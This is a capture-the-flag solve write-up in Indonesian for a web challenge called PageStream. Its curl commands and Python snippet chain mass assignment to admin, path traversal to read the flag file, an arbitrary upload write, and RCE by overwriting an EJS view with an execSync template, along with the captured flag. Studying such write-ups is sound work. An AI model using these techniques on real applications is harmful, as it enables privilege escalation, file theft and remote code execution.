

# PageStream — Eksploitasi / Solver

[← Overview](51-pagestream.md) · [Index](index.md)

## 3.1 Strategi

- Mass assign `role=admin`.
- Cara tercepat: baca `/root/flag.txt` lewat `/view`.
- Untuk demonstrasi penuh sesuai deskripsi: upload file traversal untuk menimpa view, lalu RCE.

## 3.2 Langkah exploit (live)

Register, login, dan mass assignment:

```bash
BASE=http://s1.nfx.my.id:43659
USER=ps$(date +%s | tail -c 6)
curl -sS -c cj -X POST -d "username=$USER&password=pw12345" "$BASE/register"
curl -sS -c cj -X POST -d "username=$USER&password=pw12345" "$BASE/login"
curl -sS -b cj -X POST -d 'role=admin&bio=pwned' "$BASE/profile"
curl -sS -b cj "$BASE/dashboard" | grep -o 'Administrator'
```

Baca flag via traversal:

```bash
curl -sS -b cj "$BASE/view?file=../../root/flag.txt"
# NFX{f3w_n_d4y_ch41ns_f0r_w3b_pwn_1s_n0t_th4t_h4rd_7734a1}
```

Bukti arbitrary write:

```bash
curl -sS -b cj -X POST "$BASE/post/new" \
  -F 'title=proof' -F 'content=proof' \
  -F 'image=@/dev/null;filename=../../pwned-pagestream.txt;type=text/plain'
# HTTP 302 /dashboard

curl -sS -b cj "$BASE/view?file=../../pwned-pagestream.txt"
# PAGESTREAM-WRITE-PROOF
```

RCE via overwrite view:

```bash
cat > /tmp/pwn.ejs <<'EOF'
<%= global.process.mainModule.require('child_process')
    .execSync('id; echo ---KEY---; cat /etc/pagestream.key; echo ---FLAG---; '
            + '/readflag $(cat /etc/pagestream.key)').toString() %>
EOF

curl -sS -b cj -X POST "$BASE/post/new" \
  -F 'title=rce' -F 'content=rce' \
  -F 'image=@/tmp/pwn.ejs;filename=../views/dashboard.ejs;type=text/plain'
# HTTP 302 /dashboard

curl -sS -b cj "$BASE/dashboard"
```

Script lengkap ada di `assets/pagestream/exploit_pagestream.py`; inti:

```python
S.post(BASE + "/register", data={"username": USER, "password": PASS})
S.post(BASE + "/login",    data={"username": USER, "password": PASS})
S.post(BASE + "/profile",  data={"role": "admin", "bio": "pwned"})
r = S.get(BASE + "/view", params={"file": "../../root/flag.txt"})
print(r.text)
```

### Evidence langkah ini



*Terminal evidence — `02-exploit-run.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`02-exploit-run.txt`](assets/pagestream/02-exploit-run.txt)
